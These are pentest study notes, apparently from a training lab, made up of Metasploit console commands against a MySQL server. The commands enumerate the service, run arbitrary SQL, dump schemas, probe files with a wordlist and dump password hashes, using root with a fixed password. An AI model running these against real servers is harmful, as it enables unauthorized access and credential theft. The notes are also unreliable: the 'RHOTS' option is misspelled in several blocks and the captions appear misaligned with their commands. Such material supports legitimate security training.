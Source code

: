 > This can be used to brute force my SQL user `root`.

```msfconsole
use auxiliary/admin/mysql/mysql_enum
show options
set USERNAME root
set PASSWORD twinkle
set RHOTS <ip-address>
run
```

***NOTE: THIS MODULE CAN ONLY RUN IF YOU HAVE VALID CREDS OF A USER ACCOUNT***

> This enumerates info. related to the SQL service running on the system.

```msfconsole
use auxiliary/admin/mysql/mysql_sql
show options
set USERNAME root
set PASSWORD twinkle
set RHOTS <ip-address>
set SQL <any-quary>
run
```

> This module can be used to execute SQL Commands.

```msfconsole
use auxiliary/scanner/mysql/mysql_schemadump
show options
set USERNAME root
set PASSWORD twinkle
set RHOTS <ip-address>
run
```

> This shows tables in the respective tables.

```msfconsole
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE true
run
```

> This module can be used to enumerate files in a SQL.

```msfconsole
use auxiliary/scanner/mysql/mysql_hashdump
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```
